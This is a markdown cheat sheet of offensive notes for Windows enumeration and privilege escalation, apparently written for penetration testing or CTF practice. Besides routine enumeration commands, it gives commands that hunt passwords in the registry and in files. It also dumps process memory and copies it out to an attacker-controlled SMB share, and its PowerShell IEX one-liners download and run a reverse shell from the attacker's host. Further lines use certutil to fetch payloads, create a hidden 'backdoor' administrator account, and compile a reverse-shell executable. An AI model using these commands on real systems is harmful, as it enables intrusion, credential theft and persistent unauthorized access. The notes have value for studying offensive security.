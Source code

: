 # Windows Enumeration

## If the host is running a webapp

	Go look at the webapp dir to find configs and he code
	Go look at the database
	Look at the configs of the other apps running: ftp, mails, etc
	Search users home with:
		get-childitem -recurse -force -include *.txt,*.ini,*.xml,*,json,*.cfg
		get-childitem -recurse -force -include *.txt,*.ini,*.xml,*,json,*.cfg | select-string password

## Basic System Information

	echo %USERNAME%		Print current user
	whoami /priv		Displays current user privileges
		Interesting Privileges:
			SeDebugPrivilege
			SeTakeOwnership
			SeBackupPrivilege
				https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/
			SeLoadDriverPrivilege
			Se Impersonate and SeAssignPrimaryToken
				https://github.com/ohpe/juicy-potato
	whoami /priv in cmd as admin
	whoami /groups		Displays current user groups
		Interesting Groups:
			Backup Operators
			Event Log Readers
			DnsAdmins
			Server Operators
	whoami /groups in cmd as admin
	whoami /all
	echo %PROCESSOR_ARCHITECTURE%
	net user		Print all users
	net localgroup		Print all groups
	net localgroup administrators
	net localgroup <groupname>		Prints information of group
	tasklist /svc		Gives a better idea of what applications are running on the system. Prints the name of executables and services running
		https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/tasklist

	set		Prints env variables including PATH
	
	wmic product get name		Get installed programs
		or using powershell
		Get-WmiObject -Class Win32_Product |  select Name, Version

	netstat -ano		Display active tcp and udp connections
	query user		Display active users
	net accounts		Prints password policy

	get-process		Enumerates running processes

		Use procdump https://learn.microsoft.com/en-us/sysinternals/downloads/procdump , to dump the memory of any interesting running process

			.\procdump.exe -ma <process_id> <output_file>
		
		We can use an smb share to download the output_file in cmd:

			on our local machine we do

			smbserver.py -smb2support -username guest -password guest share <path_to_folder_we_gonna_share>

			smbserver is a script from impacket

			on the remote machine we do

			net use x: \\<our_local_ip>\share /user:guest guest #

			and now we copy the dump file

			cmd /c "copy <filen_name>.dmp X:\"

		We can do the same in powershell:

			impacket-smbserver.py -smb2support share <path_to_folder_we_want_to_share>

			in powershell

			New-PSDrive -Name Exfil -PSProvider -FileSystem -Root "\\10.10.14.8\share"

			then copy the file
			
			copy users.db exfil:

Get process information by pid:

	Get-WmiObject Win32_Process -Filter "ProcessId = <PID>"
	Get-Process -Id <PID>

	cmdkey /list	Lists stored credentials

## Gather Network Information

	ipconfig /all
	arp -a
	route print

## Enumerate Protections

	https://github.com/Andre92Marcos/escalations/blob/master/ldap_security_enumeration.md

	Get-MpComputerStatus
	Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
	Get-AppLockerPolicy -Local | Test-AppLockerPolicy -path C:\Windows\System32\cmd.exe -User Everyone 		Tests Applocker policy


## System info

Check if Windows version has any known vulnerability (also check the patches applied)

		https://www.catalog.update.microsoft.com/Search.aspx?q=hotfix
		systeminfo #Prints information of the system, including hotfixes applied
		systeminfo | findstr /B /C:"OS Name" /C:"OS Version" #Get only that information

		If systeminfo doesn't display hotfixes, they may be queriable with WMI using the WMI-Command binary with QFE (Quick Fix Engineering) to display patches.

		wmic qfe get Caption,Description,HotFixID,InstalledOn #Patches
		wmic os get osarchitecture || echo %PROCESSOR_ARCHITECTURE% #Get system architecture

		[System.Environment]::OSVersion.Version #Current OS version
		Get-WmiObject -query 'select * from win32_quickfixengineering' | foreach {$_.hotfixid} #List all patches
		Get-HotFix | ft -AutoSize
		Get-Hotfix -description "Security update" #List only "Security Update" patches


## Search for passwords

	reg query HKLM /f password /t REG_SZ /s
	reg query HKCU /f password /t REG_SZ /s

## Check communication through processess using pipes

	pipelist.exe /accepteula		enumerate instances of named pipes
		https://docs.microsoft.com/en-us/sysinternals/downloads/pipelist
	Get-ChildItem \\.\pipe\		enumerate instances of named pipes with powershell
	accesschk.exe /accepteula \\.\Pipe\<name_of_pipe> -v		Enumerate permissions of pipe. We are looking for a pipe we have WRITE permissions for our user
		https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk
	accesschk.exe -w \pipe\* -v		Enumerates all pipes that have WRITE permission
	Use powersploit powerup to check miss configurations
		https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1
		IEX(New-Object Net-WebClient).downloadString("http://myhostwiththescript/PowerUp.ps1")
		Then run is ps:
		Invoke-AllChecks


## Check weak permission

	Use the sharpup too to check service binaries suffering from weak ACLS

		SharpUP.exe audit
			https://github.com/GhostPack/SharpUp/
	Check permissions using icacls
		https://ss64.com/nt/icacls.html


## If we are in a Active Directory Environment

	Use snaffler to search for credentials.

## Remote Login with username and password

We can try doing remote logins with useranmes and passwords using a script from impacket

	psexec.py '<username>:<password>@<remote_host_ip>'

Use impacket-wmiexec with rpc port 135:

	https://github.com/Andre92Marcos/tools/blob/master/impacket/wmiexec.md


## Try WinPeas

	https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS


## Other Info

Download and execute file using powershell:

	powershell -c 'IEX(New-Object Net.WebClient).downloadstring("http://<localhostip>/rev_shell")'

Download file:

	certutil.exe -urlcache -f http://<localhostip>/rev_shell <path_to_where_file_is_gonna_be_saved>

Good dir to save, download and write files:

	C:\Users\Public\

Add backdoor account as admin user:

	net user /add backdoor Password1
	net localgroup administrators /add backdoor

	Confirm that it has been added: net locagroup administrators


## Payloads

Use https://github.com/Andre92Marcos/myScripts/blob/main/rev_shell_exe.c to generate a reverse shell exe:

	x86_64-w64-mingw32-gcc rev_shell_exe.c -o rev_shell.exe

## More info

	https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md
	https://book.hacktricks.xyz/windows-hardening/checklist-windows-privilege-escalation
